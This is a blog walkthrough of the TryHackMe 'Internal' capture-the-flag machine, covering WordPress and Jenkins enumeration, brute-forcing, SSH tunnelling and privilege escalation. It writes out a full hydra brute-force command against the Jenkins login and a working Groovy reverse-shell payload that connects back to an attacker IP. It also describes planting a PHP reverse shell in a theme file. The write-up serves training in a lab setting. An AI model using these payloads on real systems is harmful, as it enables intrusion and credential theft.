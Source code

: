Internal is the hard rated challenge on tryhackme.I was following offensive pentesting path and found this machine and since this was rated as hard, I thought of writing blog on this. I hope we will learn together a lot into the rabbit hole of penetration testing. Let's hack into the machine and give them a pentest report.

## Enumeration (Recon is everything)
They gave us an ip to start. This ip may change while going down this blog because it may take more time to solve and I only give short time at once and come back later along with my notes. For now let's do initial scan with our favourite tool **Nmap**. I did all port scanning with nmap to find any interesting port and while nmap is running, i usually run **rustcan**(a fast port scanning tool written in rust language). I only found 2 ports opened ie. 22 and 80.

![image](https://hackmd.io/_uploads/r1xvkg5Lp.png)

## Bumping around website

![image](https://hackmd.io/_uploads/S1-Xs4Xwa.png)

What?? Nothing more than a default apache web server page? Okay, fine. Let me find some directories then. Let's run **feroxbuster**(bruteforcing tool written in python) to see if we can find any directories.

![image](https://hackmd.io/_uploads/HkoWMlqLa.png)

Ahhh, wordpress site. Why would the developer put much effort to build the useless site? They thought why not use wordpress instead. When i view the /wordpress site, i found it's broken. It just sucks, doesn't it? Did you liked this page?

![image](https://hackmd.io/_uploads/BJ4tGx58p.png)

Let's skip to to the internal and we got lost.
![image](https://hackmd.io/_uploads/S17V7ecIT.png)


Here, it comes the /etc/hosts file. We need to add the domain name to resolve the domain name's ip address. We just need to inform our local dns server to find the ip address for the domain name **internal.thm**
You know what to do right? Just add these line to /etc/hosts file and your local dns is ready to serve the internal.thm
```
10.10.135.111  internal.thm
```
Let's get back to our broken wordpress site and seee what it looks like. Ahh, look, it found it's beauty now. 

![image](https://hackmd.io/_uploads/HJ4DNe9Ip.png)

Now what?? I prefer to begin with inital recon on wordpress ie. running wpscan to find out any initial foothold. We may find some username enumeration and try to bruteforce the credentials. Just throw the website into the wpscan and let it do it's job. 

![image](https://hackmd.io/_uploads/ry-GTEXvT.png)


No username and interesting plugins is found by wpscan. Wordpress seems so old and old means insecure?? I searched for vulnerable wordpress version on the public exploit databases and google but that lead me to nowhere.

![image](https://hackmd.io/_uploads/S1HYpNXPa.png)


There was only one option left and that was hitting bruteforce attack on the admin account and yeah we found the password for admin account. We got our initial foothold. You can run the command as below in wpscan to get the password for admin. I won't disclose the actual password here.

![image](https://hackmd.io/_uploads/H1EbGGj8a.png)

After roaming around the admin panel inside the wordpress, i found a private page with some credentials but don't know what to do with it for now.

![image](https://hackmd.io/_uploads/H1gNPs38p.png)

Now, we are left to get reverse shell to the server. We know that twentyseventeen theme is being used and this theme contains 404.php page that we can abuse to gain our reverse shell. Edit the page with php reverse shell payload from penetestmonkey or your favourite one(mine is pentestmonkey). Don't forget to align ip and port as in your netcat listener

![image](https://hackmd.io/_uploads/rkDpvi3La.png)

We need some method to execute this php page and get the connection back and we can do that by visiting the 404 page manually. The url is  `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php` but don't forget to start the listener in your machine before executing or visiting the url. There we are on the machine. 

![image](https://hackmd.io/_uploads/HJC-9i38T.png)

## Initial Privilege Escalation
You can install linpeas on the machine but you won't be finding anything useful information. This machine is totally manual enumeration. I spent almost 30min trying to findout anything useful, tried finding the files that are owned by the root, www-data but there is nothing. While listing all the processes running the machine (`netstat -tuna`), one script caught my attention but couldn't move forward. 
This jenkins.sh is something but we don't have permission to view this file.

![image](https://hackmd.io/_uploads/BkhEQ2nUT.png)

After some enumeration on file system, i move to /opt folder and found another interesting file and note.

![image](https://hackmd.io/_uploads/Hy8GXhhLa.png)

We got some credentials but have no idea where to throw this credentials. Why don't we try ssh using this credentials?? Let's give it a try and guess what, we logged on to the machine as Aubreanna user. We got upgraded to one level privilege up.

![image](https://hackmd.io/_uploads/BJvhH2hLT.png)

Collect the first user flag. You can find it in the home directory as user.txt. On jenkins.txt note, we know that the jenkins service is running on with different ip ie.there is docker service running. That jenkins.sh maybe something related to this docker service.

![image](https://hackmd.io/_uploads/H1jFLhnLT.png)

### What is Jenkins??
> Jenkins is open source automation service that greatly helps developer in automating day to day redundant workflow. Basically jenkins is CI/CD pipelining where we write scripts that does automation for: Whenever the code changes or some event occurs then the remote code is integrated from bitbucket or gitlab, build it with local one and deploy or deliver it to the remote server.

Since jenkins run on web server, we can enumerate the jenkins using curl command line like this

![image](https://hackmd.io/_uploads/HJ_ra238p.png)

But......
this isn't the great way to do so. What can we do then? We can't directly view that ip and port in our local machine. So, there is an way called **ssh port forwarding**. Using this technique, we can access that service locally on our machine.



## SSH Port Forwarding and Jenkins Exploitation

We can tunnel our local port to connect to the remote ip and port. That's what ssh local port forwarding means. We can create a local port forwarding tunnel from port 8080 on our local machine to port 8080 on the remote machine with the IP address 172.17.0.2 through an SSH connection to the server at IP address 10.10.157.57 using the username "aubreanna" like this.
`ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.81.208`
> If this bounces your head, then ssh local port forwarding simply forwards every traffic that you send on your localhost port say 8080 to the remote server port that you specify on the above command ie.8080 and the ip is the IP address of the remote machine that you want to forward your localhost traffic to. That means when you send request to localhost:8080, ssh tunneling will forward that request to remote server and sends back the response to your localhost at port 8080


Now, we can view the page locally on our machine.

![image](https://hackmd.io/_uploads/r1XOC2nUa.png)

The jenkins page loads up locally. COOL!!

![image](https://hackmd.io/_uploads/H1ynAn2UT.png)

I tried some default credentials for the jenkins server: `admin:password` but this didn't worked for me. Why not give a shot to bruteforce using hydra tool? I quickly ran the tool and it found me the password within few seconds. You can run the tool as below. Notice that i used the ip as **samsec** because i changed the dns for localhost to samsec so that i can intercept the traffic using brupsuite(burpsuite won't capture domain name being localhost). **PS.** This is unncessary.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt samsec -s 8081 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
![image](https://hackmd.io/_uploads/SJDc6QQPp.png)

After logging in using this credentials, we can enter to the jenkins. One special function of jenkins is that it contains `/script` directory where we can run arbitrary java code. By leveraging this function, we can abuse code execution to get reverse shell to the docker machine that runs this jenkins. After digging around in google to find the rev shell payload, i found one in medium article.
```
String host="10.10.117.223";
int port=4444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```
Make sure to change the ip, port to yours that netcat is listening on. You need to insert this payload in the script console in jenkins and run the payload after setting up listener in local machine.
Finally we got the reverse shell connection like this.

![image](https://hackmd.io/_uploads/BJNVXVXDp.png)

![image](https://hackmd.io/_uploads/SkXSmEmvT.png)

Verify that we are inside docker using ls -al and you should see .dockerenv file. There is nothing in /home folder and after little while, i decided to look into opt folder and found one note with credentials somewhere.

![image](https://hackmd.io/_uploads/BJ1yYNmva.png)

Yayyy, we found the credentials for root and now one ssh connection is left to grab the root flag. I hope you can do that easily. 

## End
This challenge was more of a bruteforcing than logical escaping and exploitation. I was not aware of bruteforcing wordpress and jenkins at first glance. This may feel some overwhelming because of some ssh tunneling issues but at the end learning something new is what we should seek for in cybersec.
